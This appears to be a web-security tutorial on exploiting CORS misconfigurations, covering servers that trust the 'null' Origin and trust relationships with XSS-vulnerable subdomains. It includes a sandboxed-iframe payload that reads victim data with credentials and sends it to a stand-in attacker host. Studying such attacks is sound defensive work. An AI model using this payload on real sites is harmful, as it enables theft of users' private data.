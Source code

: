 The specification for the Origin header supports the value `null` The Browser will send this Null value in different situations:

- Cross-origin redirects.
- Requests from serialized data.
- Request using the `file:` protocol.
- Sandboxed cross-origin requests.

For example, suppose an application receives the following cross-origin request:

```jsx
GET /sensitive-victim-data
Host: vulnerable-website.com
Origin: null
```

And the server responds with:

```jsx
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

For example, this can be done using a sandboxed `iframe`
 cross-origin request of the form:

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>

```

---

# **`Exploiting XSS via CORS trust relationships`**

Even "correctly" configured CORS establishes a trust relationship 
between two origins. If a website trusts an origin that is vulnerable to
 cross-site scripting ([XSS](https://portswigger.net/web-security/cross-site-scripting)), then an attacker could exploit the XSS to inject some JavaScript that 
uses CORS to retrieve sensitive information from the site that trusts the vulnerable application.

```jsx
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: https://subdomain.vulnerable-website.com
Cookie: sessionid=...
```
